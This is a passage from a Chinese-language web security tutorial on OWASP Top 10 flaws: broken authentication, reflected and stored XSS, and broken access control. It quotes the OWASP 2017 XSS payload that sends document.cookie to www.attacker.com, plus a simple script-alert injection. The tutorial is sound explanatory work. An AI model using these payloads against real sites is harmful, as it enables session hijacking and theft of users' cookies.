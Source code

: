 导致这一漏洞的主要原因有如下几条：

1.用户身份验证凭证没有使用哈希或加密保护。

2.认证凭证可猜测，或者能够通过薄弱的的帐户管理功能（例如账户创建、密码修改、密码恢复, 弱会话ID）重写。

3.会话ID暴露在URL里（例如, URL重写）。

4.会话ID容易受到会话固定（session fixation）的攻击。

5.会话ID没有超时限制，或者用户会话或身份验证令牌特别是单点登录令牌在用户注销时没有失效。

6.成功注册后,会话ID没有轮转。

7.密码、会话ID和其他认证凭据使用未加密连接传输。

#### 跨站脚本（XSS）

XSS也是一个很常见的漏洞了。目前主要有2种XSS：

（1）反射型： 发出请求时，XSS代码出现在URL中，作为输入提交到服务器端，服务器端解析后响应，XSS随响应内容一起返回给浏览器，最后浏览器解析执行XSS代码，这个过程就像一次发射，所以叫反射型XSS。

（2）存储型: 存储型XSS和反射型的XSS差别就在于，存储型的XSS提交的代码会存储在服务器端（数据库，内存，文件系统等），下次请求目标页面时不用再提交XSS代码。

我举这么一个存储型的栗子：

某网站有一个留言板，表单是这么写的：

```html
<input type=“text” name=“content” value=“这里是用户填写的数据”>
```

那么我在value里写

```html
<script>alert('1')</script>
```

那么一旦提交保存到数据库里，所有看到我的这条留言的用户网页上都会弹个窗。

OWASP2017的场景为：

```
应用程序在下面HTML代码段的构造中使用未经验证或转义的不可信的数据：
（String）page+="<inputname='creditcard'type='TEXT‘value='"+request.getParameter（"CC"）+"'>";
攻击者在浏览器中修改“CC”参数为如下值：
'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.
这个攻击导致受害者的会话ID被发送到攻击者的网站，使得攻击者能够劫持用户当前会话。
```

XSS也会导致CSRF，当然这两者很相似，CSRF在后面说。（还有一个SSRF，和CSRF一起说）

#### 失效的访问控制

这个主要还是权限的问题。

以OWASP中的场景为例：

```
场景#1：应用程序在访问帐户信息的SQL调用中使用未验证数据：
pstmt.setString( 1, request.getParameter("acct"));
ResultSetresults = pstmt.executeQuery( );
攻击者能轻易在浏览器中将“acct”参数修改成他所想要的任何账户号码。如果应用程序没有进行恰当的验证，攻击者就能访问任何用户的账户，而不仅仅是该目标用户的账户。
http://example.com/app/accountInfo?acct=notmyacct
场景#2：攻击者能轻易强制浏览器访问目标URLs。管理员权限也需要访问管理页面。
http://example.com/app/getappInfo
http://example.com/app/admin_getappInfo
如果一个未经认证的的用户能访问这两个页面，说明存在漏洞。
如果非管理员能够访问admin页面，也说明存在漏洞。
```
